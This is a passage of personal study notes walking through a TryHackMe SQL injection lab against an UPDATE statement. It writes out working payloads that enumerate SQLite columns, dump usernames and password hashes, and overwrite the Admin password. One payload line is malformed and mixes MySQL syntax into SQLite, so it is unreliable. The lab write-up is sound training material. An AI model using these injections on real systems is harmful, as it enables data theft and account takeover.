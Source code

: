 We can then continue by extract all the column names from the usertable:

`',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='`

And as can be seen below, the usertable contains the columns: UID, name, profileID, salary, passportNr, email, nickName, and password:

![](https://i.imgur.com/Gu1VdgI.png)  

By knowing the names of the columns, we can extract the data we want from the database. For example, the query below will extract profileID, name, and passwords from usertable. The subquery is using the [group_concat()](https://sqlite.org/lang_aggfunc.html#groupconcat) function to dump all the information simultaneously, and the [||](https://sqlite.org/lang_expr.html#operators) operator is "concatenate" - it joins together the strings of its operands ([sqlite.org](https://sqlite.org/lang_expr.html#operators)).

`',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='`

',nickName=(SELECT GROUP_CONCAT(id || ',' || author || ',' || secret || ':' SEPARATOR ';') 
FROM secrets) from usertable),email='



![](https://i.imgur.com/jZG8mJG.png)  

After having dumped the data from the database, we can see that the password is hashed. This means that we will need to identify the correct hash type used if we want to update the password for a user. Using a hash identifier such as hash-identifier, we can identify the hash as SHA256: 

![](https://i.imgur.com/woCJbL5.png)  

There are multiple ways of generating a sha256 hash. For example, we can use [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/):

![](https://i.imgur.com/zaV6o4k.png)  

We can then update the password for the Admin user with the following code:
`', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -`

##### Task

Log in to the "SQL Injection 5: UPDATE Statement" challenge and exploit the vulnerable profile page to find the flag. The credentials that can be used are:

-   profileID: `10`
-   password: `toor`

The same enumeration demonstrated for finding tables and column names must be done here since the flag is stored inside another table.

The injection that found the flag was: 
`',nickName=(SELECT group_concat(id || "," || author|| "," || secret|| ":") from secrets),email='`

> https://infosecwriteups.com/sql-injection-lab-tryhackme-writeup-fcf30f846e82

## [[🐛 Application Security/🌐 🪓 Web Application Security/Broken Authentication]]

==continue here...==


